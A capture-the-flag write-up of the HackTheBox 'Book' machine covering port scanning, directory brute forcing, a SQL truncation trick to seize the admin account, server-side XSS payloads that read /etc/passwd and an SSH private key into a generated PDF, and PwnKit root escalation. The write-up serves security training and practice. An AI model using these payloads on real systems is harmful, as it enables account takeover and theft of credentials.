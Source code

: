 ```yaml
---
title: Book
description: Book box from HackTheBox write up.
---
```


# Book

## Nmap

As always let's see what Nmap has to say.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate=1000 10.10.10.176
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 19:39 CET
Nmap scan report for 10.10.10.176
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 66.92 seconds

┌──(kali㉿kali)-[~]
└─$ sudo nmap -p 22,80 -sC -sV 10.10.10.176
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 19:41 CET
Nmap scan report for 10.10.10.176
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7fc5799f682e003d603bc09430155b7 (RSA)
|   256 a3e5d174c48ae8c852c717834a5431bd (ECDSA)
|_  256 e3626872e2c0ae46673dcb46bf69b96a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.30 seconds
```

Since only port 80 and 22 are open I guess we start with port 80.

## Port 80

### Enumeration time

First of all, let's launch a directory brute force to see a bit how the application looks like.

```bash
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://10.10.10.176/ -w Wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -x php -b PHPSESSID=h4na4k7g35a1kvro6u8uglbogu 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.176/
 🚀  Threads               │ 50
 📖  Wordlist              │ Wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🤯  Header                │ Cookie: PHPSESSID=h4na4k7g35a1kvro6u8uglbogu
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302      GET        0l        0w        0c http://10.10.10.176/ => home.php
301      GET        9l       28w      312c http://10.10.10.176/admin => http://10.10.10.176/admin/
301      GET        9l       28w      313c http://10.10.10.176/images => http://10.10.10.176/images/
200      GET      156l      303w     3026c http://10.10.10.176/contact.php
403      GET        9l       28w      277c http://10.10.10.176/.php
200      GET      162l      338w     3501c http://10.10.10.176/search.php
200      GET        0l        0w        0c http://10.10.10.176/download.php
302      GET        0l        0w        0c http://10.10.10.176/logout.php => index.php
301      GET        9l       28w      311c http://10.10.10.176/docs => http://10.10.10.176/docs/
302      GET        0l        0w        0c http://10.10.10.176/admin/home.php => index.php
302      GET        0l        0w        0c http://10.10.10.176/admin/users.php => index.php
301      GET        9l       28w      319c http://10.10.10.176/admin/export => http://10.10.10.176/admin/export/
302      GET        0l        0w        0c http://10.10.10.176/admin/feedback.php => index.php
200      GET        0l        0w        0c http://10.10.10.176/db.php
302      GET        0l        0w        0c http://10.10.10.176/home.php => index.php
302      GET        0l        0w        0c http://10.10.10.176/profile.php => index.php
200      GET      321l      683w     6800c http://10.10.10.176/index.php
302      GET        0l        0w        0c http://10.10.10.176/feedback.php => index.php
403      GET        9l       28w      277c http://10.10.10.176/admin/.php
302      GET        0l        0w        0c http://10.10.10.176/books.php => index.php
302      GET        0l        0w        0c http://10.10.10.176/settings.php => index.php
301      GET        9l       28w      319c http://10.10.10.176/admin/vendor => http://10.10.10.176/admin/vendor/
302      GET        0l        0w        0c http://10.10.10.176/admin/messages.php => index.php
302      GET        0l        0w        0c http://10.10.10.176/collections.php => index.php
302      GET        0l        0w        0c http://10.10.10.176/admin/collections.php => index.php
403      GET        9l       28w      277c http://10.10.10.176/server-status
200      GET        0l        0w        0c http://10.10.10.176/admin/vendor/autoload.php
301      GET        9l       28w      328c http://10.10.10.176/admin/vendor/composer => http://10.10.10.176/admin/vendor/composer/
200      GET       56l      398w     2918c http://10.10.10.176/admin/vendor/composer/LICENSE
[####################] - 3m    420000/420000  0s      found:29      errors:415
```

There is an administration area but I don't have credentials for that. Since the application allows us to sign up I started by doing that. 

Basically, this is like a library website or something like that. You can send feedback or even upload a book, i will check that functionality later. Something I noticed was that the administrator email was in the contact section: `admin@book.htb`. After a bit playing with my username I noticed that the page was only saving a certain number of characters, if that is case with the email when creating a new user maybe we can abuse a SQL truncation attack to steal the administrator account.

### We are admin!

Using a payload like `admin@book.htb               a` as the email while signing up, allowed me to get change the administrator password and access the administration panel.

Looks like the admin can export the whole book list and get information about the name of them. I mean, the user has a feature to upload a book file that should be reviwed by the administrator but Im not able to find it anywhere. After trying for a bit, I was able to get my file into the export. Looks like its name is changed to a randon integer and put into `/docs`. I though that my file was deleted after some seconds but looks like the file itself is not deleted, just deleted from the export thing.

Well that makes things... easier I guess? The application is renaming my file to `.pdf` so I cannot really upload a webshell sadly. I decided to try something, what about server side XSS? My input is used to generate that PDF so maybe it works, using burp I uploaded a random file with this payload as title:

```html
<script>
    xhzeem = new XMLHttpRequest();
    xhzeem.onload = function(){document.write(this.responseText);}
    xhzeem.onerror = function(){document.write('failed!')}
    xhzeem.open("GET","file:///etc/passwd");
    xhzeem.send();
</script>
```

Generating the export I get all the `/etc/passwd` file! Now that I know some of the users in the machine, I will try to get a private key. After some try and error, I was able to get the private key for the `reader` user in `/home/reader/.ssh/id_rsa`.

In order for the PDF to render the content of the key properly, remember to use the `<pre>` tag:

```html
<script>
    xhzeem = new XMLHttpRequest();
    xhzeem.onload = function(){document.write("<pre>"+this.responseText+"</pre>");}
    xhzeem.onerror = function(){document.write('failed!')}
    xhzeem.open("GET","file:///home/reader/.ssh/id_rsa");
    xhzeem.send();
</script>
```

## Pwned!!!

Basically I noticed that `pkexec` is a SUID binary so this box is probably vulnerable to the PwnKit exploit:

```
reader@book:~$ find / -perm /4000 2> /dev/null
...
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/bin/mount
/bin/umount
/bin/fusermount
/bin/ping
/bin/su
```

I uploaded a binary with it to the box and gg!

```bash
reader@book:~$ ./PwnKit 
root@book:/home/reader#
```

## Beyond root

I decided to check some write ups to see how people solved this box and turns out that my escalation vector was not the intended one (Yeah, what a surprise right?). 

Well, looks like you can exploit a vulnerability in logrotate to [force it to write into an arbitrary file](https://github.com/whotwagner/logrotten).
